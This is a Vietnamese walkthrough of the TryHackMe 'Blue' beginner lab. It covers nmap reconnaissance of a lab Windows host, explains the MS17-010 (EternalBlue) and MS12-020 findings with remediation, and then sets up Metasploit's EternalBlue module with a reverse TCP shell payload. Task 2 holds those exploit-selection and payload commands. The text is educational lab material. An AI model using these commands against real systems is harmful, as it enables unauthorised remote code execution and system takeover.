





# Blue

## Mục lục

1. [Task 1: Recon](#task-1-recon)
2. [Task 2: Gain Access](#task-2-gain-access)

## Nội dung

# Task 1: Recon

Nhấn nút **Start Machine** bên dưới.

Bắt đầu AttackBox bằng cách nhấn nút **Start AttackBox** ở đầu trang. Máy AttackBox sẽ khởi động ở chế độ chia đôi màn hình (Split-Screen). Nếu không thấy, hãy sử dụng nút **Show Split View** màu xanh ở đầu trang.

Quét và tìm hiểu xem máy này dễ bị khai thác lỗ hổng nào. Lưu ý rằng máy này không phản hồi ping (ICMP) và có thể mất vài phút để khởi động. **Phòng này không nhằm mục đích trở thành một thử thách boot2root CTF, mà đây là một chuỗi hướng dẫn dành cho người mới bắt đầu. Các chuyên gia có thể sẽ không thu được nhiều giá trị ngoài việc luyện tập cơ bản vì quá trình ở đây được thiết kế tập trung cho người mới.**

>Phòng thứ 2 sau phòng này [Tại đây](https://tryhackme.com/room/ice)
>Phòng tiếp theo [Tại đây](https://tryhackme.com/room/blaster)


## Scan máy

```bash
nmap -sV -vv --script vuln 10.10.138.208
Starting Nmap 7.80 ( https://nmap.org ) at 2025-08-15 08:00 BST
NSE: Loaded 149 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 08:00
Completed NSE at 08:00, 10.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 08:00
Completed NSE at 08:00, 0.00s elapsed
Initiating ARP Ping Scan at 08:00
Scanning 10.10.138.208 [1 port]
Completed ARP Ping Scan at 08:00, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 08:00
Completed Parallel DNS resolution of 1 host. at 08:00, 0.00s elapsed
Initiating SYN Stealth Scan at 08:00
Scanning ip-10-10-138-208.eu-west-1.compute.internal (10.10.138.208) [1000 ports]
Discovered open port 3389/tcp on 10.10.138.208
Discovered open port 49159/tcp on 10.10.138.208
Increasing send delay for 10.10.138.208 from 0 to 5 due to 71 out of 236 dropped probes since last increase.
Discovered open port 445/tcp on 10.10.138.208
Discovered open port 139/tcp on 10.10.138.208
Discovered open port 135/tcp on 10.10.138.208
Discovered open port 49154/tcp on 10.10.138.208
Discovered open port 49152/tcp on 10.10.138.208
Discovered open port 49153/tcp on 10.10.138.208
Discovered open port 49158/tcp on 10.10.138.208
Completed SYN Stealth Scan at 08:00, 5.03s elapsed (1000 total ports)
Initiating Service scan at 08:00
Scanning 9 services on ip-10-10-138-208.eu-west-1.compute.internal (10.10.138.208)
Service scan Timing: About 55.56% done; ETC: 08:02 (0:00:43 remaining)
Completed Service scan at 08:01, 58.56s elapsed (9 services on 1 host)
NSE: Script scanning 10.10.138.208.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 08:01
NSE Timing: About 99.91% done; ETC: 08:02 (0:00:00 remaining)
Completed NSE at 08:02, 32.81s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 08:02
NSE: [ssl-ccs-injection 10.10.138.208:3389] No response from server: ERROR
Completed NSE at 08:02, 30.16s elapsed
Nmap scan report for ip-10-10-138-208.eu-west-1.compute.internal (10.10.138.208)
Host is up, received arp-response (0.00044s latency).
Scanned at 2025-08-15 08:00:31 BST for 127s
Not shown: 991 closed ports
Reason: 991 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn  syn-ack ttl 128 Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds syn-ack ttl 128 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  tcpwrapped   syn-ack ttl 128
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49158/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49159/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
MAC Address: 02:80:86:82:74:91 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 08:02
Completed NSE at 08:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 08:02
Completed NSE at 08:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.56 seconds
           Raw packets sent: 1077 (47.372KB) | Rcvd: 1004 (40.196KB)
```

---

### Giải thích lệnh

```
nmap -sV -vv --script vuln 10.10.138.208
```

* `-sV`: dò phiên bản dịch vụ đang chạy trên các cổng mở.
* `-vv`: tăng mức “verbose” (in nhiều thông tin hơn).
* `--script vuln`: chạy bộ NSE scripts thuộc nhóm `vuln` để kiểm tra lỗ hổng phổ biến trên các dịch vụ phát hiện được.
  → Mục tiêu: tìm cổng mở, dịch vụ/phiên bản, và quick-check các lỗ hổng đã biết.

---

### Các pha quét và dòng log quan trọng

**NSE: Loaded 149 scripts… / Script Pre-scanning / runlevel 1,2**
Nmap Scripting Engine (NSE) có 3 giai đoạn: *prerule → hostrule → postrule*. Bạn thấy “Pre-scanning” và sau đó “Script scanning … runlevel 1/2” là những lần NSE chạy các rule trước/sau khi quét cổng.

**ARP Ping Scan / Host is up, received arp-response (0.00044s latency)**
Nmap dùng ARP để phát hiện host trên cùng broadcast domain. Thấy ARP reply rất nhanh ⇒ host “Up” và nằm cùng tầng 2 (hoặc trong một lab/network ảo cho phép ARP). Tên host đảo ngược `ip-10-10-...eu-west-1.compute.internal` gợi ý môi trường cloud/lab (rất giống TryHackMe/HTB).

**Initiating SYN Stealth Scan … Discovered open port …**
Nmap dùng “SYN stealth” (tương đương `-sS`) để quét 1000 cổng mặc định. Nó tìm thấy 9 cổng mở:

* 135, 139, 445, 3389, 49152, 49153, 49154, 49158, 49159
  “Not shown: 991 closed ports (Reason: resets)” nghĩa là 991 cổng còn lại phản hồi RST ⇒ đóng.

**Increasing send delay … dropped probes**
Có rớt gói/kìm tốc độ (throttle) từ mạng/host, Nmap giảm tốc để ổn định kết quả.

**Service scan**
Sau khi thấy cổng mở, `-sV` cố gắng banner-grab/fingerprint để đoán dịch vụ/phiên bản.

---

### Kết quả cổng & dịch vụ (diễn giải từng dòng)

| Cổng                | Trạng thái | Dịch vụ (Nmap đoán)                        | Ý nghĩa thực tế                                                                                                                                                                                    |
| ------------------- | ---------- | ------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **135/tcp**         | open       | **msrpc** (RPC Endpoint Mapper)            | Dịch vụ RPC lõi của Windows.                                                                                                                                                                       |
| **139/tcp**         | open       | **netbios-ssn**                            | Legacy NetBIOS Session (SMB kiểu cũ).                                                                                                                                                              |
| **445/tcp**         | open       | **microsoft-ds** (Windows 7-10, WORKGROUP) | SMB (file sharing). Có SMBv1 thì dễ dính MS17-010.                                                                                                                                                 |
| **3389/tcp**        | open       | **tcpwrapped**                             | Đây là RDP (Remote Desktop). “tcpwrapped” nghĩa là Nmap không cầm nắm banner, kết nối bị đóng ngay hoặc được bọc qua TCP wrappers/firewall—nhưng script RDP vẫn tương tác được (xem phần lỗ hổng). |
| **49152–49159/tcp** | open       | **msrpc**                                  | Các cổng động của RPC (Dynamic RPC high ports) — rất bình thường trên Windows Vista/7/8/10.                                                                                                        |

**TTL 128** trên các dòng `syn-ack ttl 128` là đặc trưng Windows.
**Service Info: Host: JON-PC; OS: Windows; WORKGROUP** ⇒ hostname “JON-PC”, máy Windows trong workgroup mặc định.

---

## Kết quả các script lỗ hổng (NSE)

### RDP – cổng 3389

```
rdp-vuln-ms12-020:
  VULNERABLE: CVE-2012-0152 (DoS) – Medium
  VULNERABLE: CVE-2012-0002 (RCE) – High
```

* Hai lỗ hổng rất cũ (MS12-020). Nếu đúng, RDP có thể DoS hoặc thậm chí RCE trước khi đăng nhập (tùy cấu hình/NLA).
* **Lưu ý:** Script-based detection có thể *false positive*. Cần xác nhận thêm (xem mục “Xác minh/việc nên làm”).

Bạn cũng thấy:

```
ssl-ccs-injection: No reply (TIMEOUT)
sslv2-drown: (trống)
```

Đây là các script SSL/TLS chung, không hẳn áp cho RDP (RDP có thể dùng TLS nhưng cơ chế riêng). TIMEOUT/không phản hồi ≠ lỗ hổng.

### SMB – cổng 445

```
smb-vuln-ms17-010: VULNERABLE (CVE-2017-0143)
```

* Đây là lỗ hổng **EternalBlue** nổi tiếng (WannaCry). Nếu đúng là **SMBv1 còn bật và chưa vá**, rủi ro **RCE** rất cao.
* Các script khác:

  * `smb-vuln-ms10-054: false` ⇒ đã vá hoặc không bị.
  * `smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED` ⇒ cần quyền/không kiểm tra được.
  * `samba-vuln-cve-2012-1182: ACCESS_DENIED` ⇒ script cho **Samba** (Linux) chứ không phải Windows; báo “ACCESS\_DENIED” nên bỏ qua.

### Các dòng lỗi khác

```
clamav-exec: ERROR: Script execution failed
```

Script này thử test ClamAV (cổng 3310) nhưng bạn không có dịch vụ đó → lỗi là **bình thường** khi script “vuln” cố chọc dịch vụ không tồn tại/từ chối.

---

### Tổng hợp nhanh

* **Máy Windows** (JON-PC), để lộ **RDP (3389)** và **SMB (445)** ra mạng.
* NSE báo **có thể** dính:

  * **MS12-020 (RDP)** – DoS/RCE (CVE-2012-0152, CVE-2012-0002).
  * **MS17-010 (SMBv1)** – RCE nghiêm trọng (CVE-2017-0143 / EternalBlue).
* 135/139/445/3389 + dải 4915x là *chân dung điển hình* của máy Windows cũ/chưa vá trong môi trường lab.

> **Cảnh báo về độ tin cậy:** Kết quả từ scripts NSE là “best effort”. Có thể **false positive/false negative** do tường lửa, IDS/IPS, phiên bản Nmap cũ (7.80). Nên xác minh lại bằng các kiểm tra **không xâm nhập** khác.

---
## Quét số cổng đang mở

Có bao nhiêu cổng đang mở với số cổng nhỏ hơn 1000?

Chúng tôi đã dùng lệnh:

```
nmap -Pn -p- -sS -sV -sC -O -oN namp.test -A --script vuln $IP
```

`$IP` là địa chỉ IP của máy chúng ta.

1. **-Pn**: Bỏ qua bước dò tìm host (giả định tất cả host đều online).
2. **-p-**: Quét tất cả các cổng (1–65535).
3. **-sS**: Thực hiện quét SYN (còn gọi là quét nửa mở – half-open scan).
4. **-sV**: Kiểm tra các cổng mở để xác định thông tin dịch vụ/phiên bản.
5. **-sC**: Chạy các script NSE mặc định.
6. **-O**: Bật phát hiện hệ điều hành.
7. **-oN `<output_file>`**: Lưu kết quả vào file chỉ định.
8. **-T5**: Thiết lập chế độ quét nhanh nhất (aggressive timing).
9. **-A**: Bật phát hiện hệ điều hành, phát hiện phiên bản, quét script, và traceroute.
10. **--script vuln**: Chạy các script phát hiện lỗ hổng bảo mật.

```bash
nmap -p 1-1000 10.10.138.208
Starting Nmap 7.80 ( https://nmap.org ) at 2025-08-15 08:41 BST
Nmap scan report for ip-10-10-138-208.eu-west-1.compute.internal (10.10.138.208)
Host is up (0.00037s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:80:86:82:74:91 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 5.71 seconds
```

---

## Xem các lỗ hổng

### **1. MS17-010 – SMBv1 Remote Code Execution**

* **Cổng liên quan:** `445/tcp` (Microsoft SMB)
* **CVE:** [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143)
* **Mức độ rủi ro:** **Cao** – Đây chính là lỗ hổng “EternalBlue” được sử dụng trong vụ tấn công **WannaCry**.
* **Tác hại:**

  * Cho phép kẻ tấn công từ xa thực thi mã độc **mà không cần đăng nhập**.
  * Có thể chiếm toàn quyền điều khiển hệ thống.
* **Nguyên nhân:** SMBv1 vẫn đang bật và chưa được vá.
* **Cách khắc phục:** Tắt SMBv1, cài bản vá bảo mật của Microsoft phát hành tháng 3/2017.

---

### **2. MS12-020 – Lỗ hổng trong Remote Desktop Protocol (RDP)**

* **Cổng liên quan:** `3389/tcp` (RDP)
* **CVE:**

  * [CVE-2012-0152](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152) – Tấn công Từ chối dịch vụ (DoS)
  * [CVE-2012-0002](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002) – Thực thi mã từ xa (**nguy cơ cao**)
* **Tác hại:**

  * **CVE-2012-0002**: Cho phép thực thi mã độc trước khi đăng nhập vào RDP.
  * **CVE-2012-0152**: Có thể làm treo dịch vụ RDP.
* **Nguyên nhân:** Chưa cài bản vá và có thể chưa bật Network Level Authentication (NLA).
* **Cách khắc phục:** Cài bản vá MS12-020, bật NLA và giới hạn truy cập RDP qua tường lửa hoặc VPN.

---

### **Bảng tóm tắt**

| Cổng | Dịch vụ | Lỗ hổng                             | CVE                          | Mức rủi ro           |
| ---- | ------- | ----------------------------------- | ---------------------------- | -------------------- |
| 445  | SMBv1   | Remote Code Execution (EternalBlue) | CVE-2017-0143                | **Cao**              |
| 3389 | RDP     | RCE & DoS                           | CVE-2012-0002, CVE-2012-0152 | **Cao / Trung bình** |

---

## **Vì sao nguy hiểm**

Cả hai lỗ hổng này đều có thể bị khai thác **từ xa, không cần xác thực**.
Nếu máy này lộ ra internet hoặc mạng LAN không an toàn, kẻ tấn công có thể:

* Chiếm toàn quyền hệ thống (MS17-010, CVE-2012-0002).
* Cài ransomware hoặc worm để lây sang các máy khác.
* Dùng làm bàn đạp tấn công sâu hơn vào mạng nội bộ.

---

# Task 2: Gain Access

## Khởi động Metasploit



## Tìm đường dẫn đến mã khai thác

Tìm mã khai thác mà chúng ta sẽ chạy trên máy. Đường dẫn đầy đủ của mã là gì? (Ví dụ: exploit/........)




```bash
search ms17_010
```

và Metasploit đã trả về danh sách **các module liên quan đến lỗ hổng MS17-010** (EternalBlue, EternalRomance, EternalSynergy…).

 1. Ý nghĩa bảng kết quả

* **#** → số thứ tự để tham chiếu nhanh (có thể gọi module bằng số này).
* **Name** → đường dẫn và tên module trong Metasploit.
  Ví dụ: `exploit/windows/smb/ms17_010_eternalblue`
* **Disclosure Date** → ngày công bố lỗ hổng (14/03/2017).
* **Rank** → độ tin cậy/hiệu quả của module (`average`, `normal`…).
* **Check** → cho biết module có hỗ trợ lệnh `check` để kiểm tra lỗ hổng hay không.
* **Description** → mô tả ngắn gọn module khai thác hoặc quét.

---

2. Các nhóm module chính trong kết quả

🔹 **Exploit Modules** (tấn công, chiếm quyền)

* **exploit/windows/smb/ms17\_010\_eternalblue**
  → Khai thác EternalBlue (SMBv1) → RCE (Remote Code Execution)
  Có nhiều **target** bên dưới (Windows 7, 8, 10, Server 2012…).

* **exploit/windows/smb/ms17\_010\_psexec**
  → Kết hợp EternalRomance/EternalSynergy/EternalChampion với cơ chế `psexec` để thực thi lệnh từ xa.

🔹 **Admin/Command Modules**

* **auxiliary/admin/smb/ms17\_010\_command**
  → Cho phép thực thi lệnh qua SMB nếu khai thác thành công.

🔹 **Scanner Modules** (quét, phát hiện)

* **auxiliary/scanner/smb/smb\_ms17\_010**
  → Dùng để kiểm tra host có dính MS17-010 hay không (không khai thác, chỉ phát hiện).

---

## Đặt các giá trị

Hiển thị các tùy chọn và đặt giá trị bắt buộc. Tên của giá trị này là gì? (Viết hoa toàn bộ khi nộp)

- Đầu tiên chúng ta cần chọn module bằng số

`use 0`

Chúng ta có thể chọn bằng đường dẫn, tuy nhiên module ms17_010_eternalblue nằm ở số 0 nên có thể sử dụng `use 0`



- Tiếp theo cần kiểm tra lỗ hổng




1. Module options

```
RHOSTS        yes   The target host(s)
RPORT   445   yes   The target port (TCP)
SMBDomain     no    Tên miền Windows (nếu cần đăng nhập)
SMBPass       no    Mật khẩu (nếu cần)
SMBUser       no    Tài khoản (nếu cần)
VERIFY_ARCH   yes   Kiểm tra kiến trúc (32/64-bit) trước khi exploit
VERIFY_TARGET yes   Kiểm tra OS có khớp với exploit hay không
```

Ở đây, cái **bắt buộc bạn phải set là RHOSTS** (IP của máy nạn nhân).

* `RPORT` mặc định = 445 (cổng SMB), giữ nguyên.
* `SMBDomain`, `SMBUser`, `SMBPass` thường để trống (chỉ cần khi cần xác thực).
* `VERIFY_ARCH` và `VERIFY_TARGET` mặc định là `true`, có lợi cho độ ổn định, nên giữ nguyên.


---

2. Payload options (windows/x64/meterpreter/reverse\_tcp)

```
EXITFUNC   thread   yes   Cách thoát khi payload kết thúc
LHOST      ?        yes   Địa chỉ IP máy tấn công (attacker)
LPORT      4444     yes   Cổng lắng nghe
```

Bắt buộc phải set **LHOST** (IP của máy tấn công – máy bạn).

---




- Sau đó:

```bash
set payload windows/x64/shell/reverse_tcp
```


Trong Metasploit, **payload** là đoạn mã chạy trên máy nạn nhân sau khi khai thác lỗ hổng thành công.
Nó quyết định bạn sẽ có **quyền kiểm soát** kiểu gì.

 `windows/x64/shell/reverse_tcp`

* **windows** → payload dành cho hệ điều hành Windows.
* **x64** → kiến trúc 64-bit (chạy trên Windows 7/8/10/Server 64-bit).
* **shell** → kiểu kết nối trả về là một **command shell cơ bản** (`cmd.exe`).
* **reverse\_tcp** → nghĩa là:

  * Máy nạn nhân **chủ động kết nối ngược** về máy tấn công.
  * Máy attacker (bạn) cần lắng nghe tại **LHOST\:LPORT**.
  * Sau khi kết nối thành công, bạn sẽ có một cửa sổ lệnh (shell) để gõ lệnh trực tiếp trên máy nạn nhân.

---


